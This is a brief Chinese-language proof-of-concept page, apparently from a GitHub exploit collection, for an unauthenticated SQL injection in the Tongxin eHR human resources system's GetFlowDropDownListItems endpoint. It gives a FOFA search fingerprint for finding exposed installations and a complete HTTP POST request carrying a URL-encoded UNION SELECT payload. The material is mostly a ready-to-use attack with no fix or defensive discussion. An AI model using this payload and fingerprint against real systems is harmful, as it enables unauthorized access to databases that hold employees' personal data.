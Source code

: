 # 同鑫eHR人力资源管理系统GetFlowDropDownListItems存在SQL注入漏洞

同鑫eHR人力资源管理系统 GetFlowDropDownListItems 接口存在SQL注入漏洞，未经身份验证的远程攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息。

## fofa

```javascript
body="/TX.CDN"
```

## poc

```javascript
POST /Common/GetFlowDropDownListItems HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
Content-Type: application/x-www-form-urlencoded; charset=utf-8
 
FixedFormCode=1%27%20UNION%20ALL%20SELECT%20NULL%2C@@VERSION--
```


